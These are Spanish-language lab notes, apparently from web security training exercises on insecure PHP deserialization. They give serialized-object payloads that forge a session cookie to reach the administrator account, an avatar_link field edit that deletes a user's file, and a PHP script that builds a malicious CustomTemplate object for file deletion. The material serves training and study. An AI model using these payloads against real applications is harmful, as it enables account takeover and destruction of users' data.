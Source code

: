 ### LAB: Modificar tipos de datos en serie

* App vulnerable a la deserializacion insegura de objetos basados en la derivacion de tipos de datos. 
* Poder modificar la cookie de session para poder acceder a `administrator` cuenta
```js
//Decodificamos la cookie como el anterior Lab. (Decode URL→Decode Base64)

//Dejamos el payload asi: 
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
//Hacemos todo el proceso de codificación base64→urlEncode y pegamos en la cookie de session y SOLVED. 
```

### LAB: Usando la funcionalidad para Deserialización Insegura

* Este ataque nos permite por medio de una funcionalidad especifica, poder tomar la cookie de session, modificarla para poder ejecutar y delete `/home/carlos/morale.txt`

```js
Lo que se puede hacer es mejor, ingresar como wiener tomamos el endpoint GET my-account/delete y modificamos la cookie, añadimos así s:11:"avatar_link";s:23:"/home/carlos/morale.txt"; y así luego cambiamos la petición a POST →
1. O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ACCESS_TOKEN";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

2. s:11:"avatar_link";s:23:"/home/carlos/morale.txt" //version resumida
```

### LAB: Inyección arbitraria Object in PHP

* Como atacantes muchas veces se puede hacer uso de métodos magicos que se llaman durante o despues de la deserialización, estos mismos segun el enfoque que se les de pueden dar pie para ataques de deserializacion, y generar comportamientos no deseados en la app tan solo por haber integrado el método magicos en la entrada controlada por el user/atacante. 
	* Ejm methods magics: `__construct() en PHP, __init__ en Python, unserialize() busca e invoca el method magic __wakeup() para la deserializacion en PHP, readObject(ObjectInputStream) en Java`
* Este ataque nos permite la inyección de objetos arbitrarios en la deserializacion, el cual podemos crear y modificar a gusto para centrarlo en RCE y eliminar `morale.txt` del directorio home de carlos. 
> A veces puedes leer código fuente al agregar un tilde ( ~)a un nombre de archivo para recuperar un archivo de copia de seguridad generado por editor. archivo.txt~

##### Comando util para compilar el object serializado en base64: 

* Solo faltaría encodear a URL y listo. 

* https://onecompiler.com/php/43a2754v6

```php
<?php
// Exploit para la vulnerabilidad de File Deletion
class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($path) {
        $this->template_file_path = "/dev/null";  // Valor irrelevante
        $this->lock_file_path = $path;  // Aquí ponemos el archivo que queremos eliminar
    }
}

// Crear el objeto malicioso
$exploit = new CustomTemplate("/home/carlos/morale.txt");

```